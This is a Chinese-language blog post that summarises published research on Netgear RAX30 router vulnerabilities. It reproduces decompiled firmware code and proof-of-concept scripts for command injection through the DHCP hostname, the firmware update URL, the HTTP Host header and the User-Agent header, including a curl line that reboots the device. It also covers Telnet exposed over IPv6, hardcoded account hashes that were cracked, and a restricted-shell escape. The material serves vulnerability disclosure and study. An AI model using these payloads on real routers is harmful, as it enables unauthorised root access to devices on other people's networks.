





本文整理参考文章中记录的 Netgear RAX30 历史漏洞，涵盖 DHCP 主机名、固件更新、HTTP 请求头和 IPv6 WAN 服务暴露等问题。以下设备行为、权限、地址和测试输出均对应原研究环境；代码为原文节选，保留其示例逻辑。

## LAN 口：udhcpd hostname 命令注入

LAN 侧 DHCP 服务中的命令注入发生在 `bin/udhcpd` 处理 `DHCPREQUEST` 数据包时。

下面的代码在 `[1]` 处读取 `DHCP_HOST_NAME` 选项，将主机名复制到 `lease` 结构中的对应字段，并在 `[2]` 处调用 `send_lease_info`。

```{.c filename="udhcpd · 获取并保存 DHCP hostname"}
void __fastcall __noreturn dhcpd(int a1, int a2)
{
    // truncated...
LABEL_84:
    switch ( *state )
    {
      // truncated...
      case DHCPREQUEST:
        requested_1 = (unsigned int *)get_option(&packet, DHCP_REQUESTED_IP);
        server_id_1 = (int *)get_option(&packet, DHCP_SERVER_ID);
        hostname = (const char *)get_option(&packet, DHCP_HOST_NAME); // [1]
        option55 = (char *)get_option(&packet, DHCP_PARAM_REQ);
        if ( requested_1 )
          v7 = *requested_1;
        if ( server_id_1 )
          v83 = *server_id_1;
        v45 = (char *)get_option(&packet, DHCP_VENDOR);
        test_vendorid(&packet, v45, &v87);
        v46 = v87;
        if ( v87 )
          goto LABEL_12;
        v47 = (unsigned __int8 *)MAX_DHCP_INFORM_COUNT;
        break;
      // truncated...
    }

LABEL_106:
    if ( lease )
    {
      // truncated...
      if ( hostname )
      {
        v51 = *((unsigned __int8 *)hostname - 1);
        if ( v51 >= 0x3F )
          v51 = 63;
        strncpy(lease + 24, hostname, v51);
        lease[v51 + 24] = 0;
        send_lease_info(0, (int)lease); // [2]
      }
      // truncated...
    }
    // truncated...
}
```

在 `send_lease_info` 中，主机名经 `[1]` 处复制后，被直接拼接到传给 `system` 的命令字符串中，最终在 `[2]` 处执行。

```{.c filename="send_lease_info · 主机名进入命令字符串"}
int __fastcall send_lease_info(int a1, dhcpOfferedAddr *lease)
{
  // truncated...
  if ( !a1 )
  {
    // truncated...
    if ( body.hostName[0] )
    {
      strncpy((char *)HostName, body.hostName, 0x40u); // [1]
      snprintf((char *)v11, 0x102u, "%s", body.vendorid);
    }
    else
    {
      strncpy((char *)v10, "unknown", 0x40u);
      strncpy((char *)v11, "dhcpVendorid", 0x102u);
    }
    sprintf(
      command,
      "pudil -a %s %s %s %s \"%s\"",
      body.macAddr,
      body.ipAddr,
      (const char *)HostName,
      body.option55,
      (const char *)v11);
    system(command); // [2]
  }
  // truncated...
}
```

这里的 `hostname` 最多保留 **63 字节**。原研究将验证命令放入该字段，通过 DHCP 请求发送给路由器。在研究设备上，该命令以相关服务的 root 权限执行。

```{.python filename="DHCP hostname · 原文概念验证脚本"}
import dhcppython
from ipaddress import IPv4Address
import socket
import sys


def send_requests_packet(hostname):
    opt_list = dhcppython.options.OptionList(
        [
            dhcppython.options.options.short_value_to_object(53, "DHCPREQUEST"),
            dhcppython.options.options.short_value_to_object(54, "192.168.5.1"),
            dhcppython.options.options.short_value_to_object(50, "192.168.5.11"),
            dhcppython.options.options.short_value_to_object(12, hostname),
            dhcppython.options.options.short_value_to_object(
                55, [1, 3, 6, 15, 26, 28, 51, 58, 59, 43]
            ),
        ]
    )
    pkt = dhcppython.packet.DHCPPacket(
        op="BOOTREQUEST", htype="ETHERNET", hlen=6, hops=0,
        xid=123456, secs=0, flags=0,
        ciaddr=IPv4Address(0), yiaddr=IPv4Address(0),
        siaddr=IPv4Address(0), giaddr=IPv4Address(0),
        chaddr="DE:AD:BE:EF:C0:DE", sname=b'', file=b'', options=opt_list,
    )
    print(pkt)
    print(pkt.asbytes)

    # send DHCP packet to server by udp protocol
    pl = pkt.asbytes
    SOC = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
    SOC.sendto(pl, ('192.168.5.1', 67))


send_requests_packet("a`touch /tmp/test`b")
```

## WAN 口：证书验证缺失与 pufwUpgrade URL 命令注入

### 固件检查请求关闭证书验证

原研究在 WAN 侧抓包时，发现路由器连接了 `devcom.up.netgear.com` 和 `time-e.netgear.com` 等域名。

负责固件检查的 `pucfu` 通过 `libfwcheck.so` 中的相关接口发起更新检查。检查请求使用数据库中 `UpBaseURL` 对应的地址：

```{.text filename="固件检查 · UpBaseURL"}
https://devcom.up.netgear.com/UpBackend/
```

`curl_post` 用于发送 HTTPS POST 请求。以下为原文在地址 `0x6B60` 附近分析的代码节选：

```{.c filename="curl_post · 关闭主机名和证书校验"}
size_t __fastcall curl_post(const char *url, const char *post_data, void **p_html)
{
  /* ... */
  ((void (*)(int, const char *, ...))fw_debug)(1, " URL is %s\n", url);

  curl_easy_setopt(curl, CURLOPT_URL, url);
  curl_easy_setopt(curl, CURLOPT_HTTPHEADER, https_hdr);
  curl_easy_setopt(curl, CURLOPT_POSTFIELDS, post_data);
  curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0); // [1]
  curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0); // [2]
  curl_easy_setopt(curl, CURLOPT_NOSIGNAL, 1);

  v12 = strlen(post_data);
  curl_easy_setopt(curl, CURLOPT_POSTFIELDSIZE, v12);
  curl_easy_setopt(curl, CURLOPT_WRITEFUNCTION, curl_writedata_cb);
  curl_easy_setopt(curl, CURLOPT_WRITEDATA, &s);

  if ( curl_easy_perform(curl) )
  {
    /* ... */
  }
  /* ... */
}
```

`[1]` 和 `[2]` 处分别关闭了 `CURLOPT_SSL_VERIFYHOST` 与 `CURLOPT_SSL_VERIFYPEER`。在原研究的网络控制条件下，研究人员可以通过伪造 DHCP、DNS 服务冒充更新服务器。

响应结构示意如下，其中 `url` 的实际内容省略：

```{.json filename="固件检查 · 响应结构示意"}
{
  "status": 1,
  "url": "..."
}
```

响应中的 `url` 被写入 `/tmp/fw/cfu_url_cache`，供后续更新流程使用。

### 更新 URL 被拼接到 shell 命令

`pufwUpgrade` 在更新流程中读取缓存 URL。原文分析了 `FwUpgrade_download_FwInfo` 与 `DownloadFiles` 的调用关系，指出 URL 最终进入了命令字符串。

```{.c filename="固件下载 · URL 进入命令执行路径"}
int __fastcall FwUpgrade_download_FwInfo(int option)
{
  // ...
  while ( 1 )
  {
    SetFileValue("/data/fwLastChecked", "lastDL_sku", v69);
    SetFileValue("/data/fwLastChecked", "lastDL_url", g_url_update);
    v4 = DownloadFiles(
      &fw_upgrade, "/tmp/fw/dl_fileinfo_unicode", "/tmp/fw/dl_result", 0);
    // ...
  }
}

int __fastcall DownloadFiles(
  const char *url_update, const char *a2, char *filename, int a4)
{
  // ...
  if ( is_https )
  {
    // ...
  }
  else
    snprintf(
      s,
      0x1F4u,
      "(curl --fail --insecure %s --max-time %d --speed-time 15 --speed-limit 1000 -o %s 2> %s; echo $? > %s)",
      url_update, // [1]
      v7,
      a2,
      "/tmp/curl_result_err.txt",
      "/tmp/curl_result.txt");
  j_DBG_PRINT("%s:%d, cmd=%s\n", "DownloadFiles", 328, s);
  if ( j_pegaPopen(s, "r") )
  {
    // ...
  }
  // ...
}
```

URL 未经适当处理直接进入 shell 命令，形成命令注入入口。下面保留原文中用于构造响应的 HTTP 服务片段；其导入、运行环境和其他代码未完整列出。

```{.python filename="固件检查响应 · 原文 HTTP 服务片段"}
response_data = (
    '{\r\n'
    '    "status": 1,\r\n'
    '    "url": "`touch /tmp/aaa`"\r\n'
    '}\r\n'
)


class MyHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/plain")
        self.end_headers()
        self.wfile.write(response_data)


if __name__ == "__main__":
    webServer = HTTPServer(('0.0.0.0', 8000), MyHandler)
    print("Server started http://%s:%s" % ('0.0.0.0', 8000))
    webServer.serve_forever()
    # ...
```

## WAN 与 LAN：urlfilterd Host 命令注入

默认情况下，`urlfilterd` 在端口 80 上监听，但在启用 **Block Sites** 功能之前，不执行相应过滤操作。



启用后，HTTP 请求被捕获并解析，以检查 `Host` 是否在黑名单中。



检查完成后，程序调用 `system()` 记录日志，将主机名直接传入命令，未进行适当验证。



原文通过请求头中的恶意 `Host` 值，触发 `urlfilterd` 日志函数中的命令注入。



检查 iptables 规则时，研究人员发现相关端口 80 流量会被转发到 `urlfilterd`。



原研究据此在 WAN 侧发送请求进行验证，相关代码片段如下：

```{.python filename="urlfilterd · 原文请求构造片段"}
def send_frame(ip, cmd):
    arp_r = scapy.ARP(pdst=ip + "/32")
    br = scapy.Ether(dst='ff:ff:ff:ff:ff:ff')
    request = br / arp_r
    answered, _ = scapy.srp(request, timeout=1)
    test_message = (
        "GET / HTTP/1.1\r\nHost: test.org;" + cmd
        + "\r\nConnection: close\r\n\r\n"
    )
    src = "192.168.12." + str(random.randint(2, 253))
    dst = "192.168.12.15"
    sport = random.randint(1024, 65535)
    dport = 80
    packet = Ether(dst=answered[0].answer.hwsrc) / \
             IP(src=src, dst=dst) / \
             TCP(dport=dport, sport=sport, flags="") / \
             Raw(test_message.encode())
    ans = srp(
        packet,
        timeout=TIMEOUT
    )
```

## LAN 口：puhttpsniff User-Agent 命令注入

对 `puhttpsniff` 执行 `strings` 后，可以看到 `User-Agent`、`pudil` 命令模板与 NFLOG 规则等字符串：

```{.text filename="puhttpsniff · strings 输出节选"}
$ strings squashfs-root/bin/puhttpsniff
/lib/ld-linux.so.3
(...)
User-Agent:
%255[^
pudil -i %s "%s"
(...)
iptables -w -t filter -D INPUT -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512 2> /var/tmpDebug
iptables -w -t filter -I INPUT -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512
iptables -w -t filter -D FORWARD -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512 2> /var/tmpDebug
iptables -w -t filter -I FORWARD -i br0 -p tcp --dport 80 -j NFLOG --nflog-group 0 --nflog-size 512
HTTP sniffer start!!
(...)
```

该程序插入 NFLOG iptables 规则，通过回调处理捕获的数据。下面的反编译片段展示了 `User-Agent` 的提取和使用过程：

```{.c filename="puhttpsniff · User-Agent 进入 system"}
if ( data_len > 9 )
{
   data[data_len] = 0;
   result = strstr(data, "User-Agent: ");
   if ( result )
   {
      _isoc99_sscanf(result + 12, "%255[^\r\n]", &user_agent_string);
      sprintf(v10, "pudil -i %s \"%s\"", ip_addr, (const char *)&user_agent_string);
      return (char *)system(v10);
   }
}
```

NFLOG 规则覆盖 `INPUT` 和 `FORWARD` 链上的相关流量。在原研究环境中，向 LAN 默认 IP 的 HTTP 服务发送请求即可触达这段处理逻辑。

这里最多提取 255 个字符，并将其拼接到 `system` 命令中。原文以以下会触发设备重启的请求作为验证：

```{.bash filename="User-Agent · 原文重启验证请求"}
curl --user-agent "a\";/sbin/reboot;\"" http://192.168.1.1
```

## WAN 口：IPv6 链路本地地址暴露 Telnet 服务

原研究在配置 WAN 侧 DHCP 服务，并通过 LAN 漏洞取得设备 shell 后，检查了进程与监听套接字。结果显示 SSH（TCP 22）、Telnet（TCP 23）等服务同时监听 IPv4 和 IPv6。

WAN 侧的 IPv4 扫描显示相关端口关闭，但对 IPv6 地址的扫描发现了开放端口。下面是原文的 TCP 23 扫描记录：

```{.text filename="原研究记录 · IPv6 Telnet 端口扫描"}
$ nmap -6 -p 23 fe80::6ecd:d6ff:fe44:dd73%eth1
Starting Nmap 7.80 ( https://nmap.org ) at 2022-12-01 12:04 CET
Nmap scan report for fe80::6ecd:d6ff:fe44:dd73
Host is up (0.00061s latency).
PORT      STATE      SERVICE
23/tcp    open       telnet
Nmap done: 1 IP address (1 host up) scanned in 0.08 seconds
```

原文指出，相关 `ip6tables` 访问限制适用于 `br0`（LAN），而 WAN 侧规则在特定 IPv6 地址配置条件下才生效。当 WAN 只使用链路本地地址时，同一链路上的设备可以访问暴露的服务，包括 `webadmin`、`telnet`、`ssh` 和 `soap_serverd` 等。

### 硬编码账户

研究人员通过此前获得的设备访问能力，在 `/etc/passwd` 中发现了硬编码账户。原文记录如下：

```{.text filename="原研究记录 · /etc/passwd 节选"}
$ cat /etc/passwd
admin:<admin passwd hash>:0:0:Administrator:/:/bin/sh
support:$1$QkcawmV.$VU4maCah6eHihce5l4YCP0:0:0:Technical Support:/:/bin/sh
user:$1$9RZrTDt7$UAaEbCkq.Qa4u0QwXpzln/:0:0:Normal User:/:/bin/sh
nobody:<admin passwd hash>:0:0:nobody for ftp:/:/bin/sh
```

原文使用 John 破解 `support` 账户的密码，随后通过 Telnet 登录：

```{.text filename="原研究记录 · support 账户登录"}
$ telnet fe80::6ecd:d6ff:fe44:dd73%eth1
Trying fe80::6ecd:d6ff:fe44:dd73%eth1...
Connected to fe80::6ecd:d6ff:fe44:dd73%eth1.
Escape character is '^]'.
BCM96750 Broadband Router
Login: support
Password:
 > help
?
help
logout
exit
quit
reboot
brctl
cat
(...)
```

### 受限 shell

原文记录了通过子 shell、命令分隔符或隐藏命令离开受限 shell 的情况。以下为其中一段交互记录：

```{.text filename="原研究记录 · 受限 shell 中的命令执行"}
> ifconfig a; /bin/ash
ifconfig a ; /bin/ash
ifconfig: a: error fetching interface information: Device not found

BusyBox v1.31.1 (2022-05-11 10:37:23 CST) built-in shell (ash)

Enter 'help' for a list of built-in commands.
# uname -a
Linux RAX30 4.19.151 #1 SMP PREEMPT Wed May 11 10:27:11 CST 2022 armv7l
#
```

原文还讨论了依据 WAN 接口 MAC 地址推断 IPv6 链路本地地址的方式，并引用 RFC 4291 第 2.5.6 节及附录 A。这里记录的是原研究中设备的地址生成行为。

## 参考

- [我们的 Netgear RAX30 漏洞的最后一口气——Pwn2Own 多伦多 2022 之前的一个悲剧故事](https://starlabs.sg/blog/2022/12-the-last-breath-of-our-netgear-rax30-bugs-a-tragic-tale-before-pwn2own-toronto-2022/)
- [Pwn2Own 多伦多 2022 故事：一个死去的年轻 Netgear RAX30 漏洞](https://iotworkers.com/hacking/pwn2own-toronto-2022-story-a-die-young-netgear-rax30-bugs.html)
- [很酷的漏洞不会长寿——NETGEAR 和 PWN2OWN](https://www.synacktiv.com/en/publications/cool-vulns-dont-live-long-netgear-and-pwn2own.html)

[← 返回 Blogs](../../blogs.qmd)
